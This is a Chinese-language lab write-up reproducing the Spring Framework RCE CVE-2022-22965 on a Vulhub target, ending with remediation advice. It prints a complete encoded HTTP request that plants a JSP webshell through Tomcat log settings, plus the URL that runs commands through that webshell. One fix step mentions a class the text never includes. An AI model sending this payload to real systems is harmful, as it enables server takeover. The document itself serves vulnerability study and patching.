

# Spring Framework远程代码执行漏洞 CVE-2022-22965复现与分析

## 漏洞概述

Spring Framework是一个开源应用框架，初衷是为了降低应用程序开发的复杂度，具有分层体系结构，允许用户选择组件，同时还为 J2EE 应用程序开发提供了一个好用的框架。当Spring部署在JDK9及以上版本，远程攻击者可利用该漏洞写入恶意代码导致远程代码执行。

## 影响版本

- Spring Framework < 5.3.18
- Spring Framework < 5.2.20

## 漏洞复现

### 环境搭建

本次复现采用Vulhub靶场环境，需要在本地搭建Vulhub靶场

```
cd /vulhub/spring/CVE-2022-22965
docker-compose up -d
```


根据VULHUB靶场提示操作，访问靶场服务器IP+端口：


### 漏洞测试

发送以下请求以更改 Apache Tomcat 中的日志记录配置并将日志写入 JSP 文件：

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: 192.168.32.132:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) 	AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 		Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1
```



然后，访问刚才的 JSP webshell，并执行任意命令：

```
http://192.168.106.128:8080/tomcatwar.jsp?pwd=j&cmd=id
```


## 漏洞检测工具

可以使用以下工具来检测漏洞是否存在:

```
https://github.com/hypnoticp/Python_script
```


## 修复建议

- 在使用Spring框架的服务器中，命令行下执行“java –version”，查看当前JDK版本，如果JDK版本在8及以下，则不受此漏洞影响

- 在应用中全局搜索@InitBinder注解，看看方法体内是否调用dataBinder.setDisallowedFields方法，如果发现此代码片段的引入,则在原来的黑名单中，添加{“class.","Class.”,“.class.”,“.Class.”}。
- 在应用系统的项目包下新建以下全局类，并保证这个类被Spring 加载到(推荐在Controller所在的包中添加)。完成类添加后，需对项目进行重新编译打包和功能验证测试，并重新发布项目
- 当前 Spring Framework 官方已发布最新版本，建议受影响的用户及时更新升级到最新版本。链接如下：https://github.com/spring-projects/spring-framework/tags

## 漏洞原理分析

https://paper.seebug.org/1877/#_1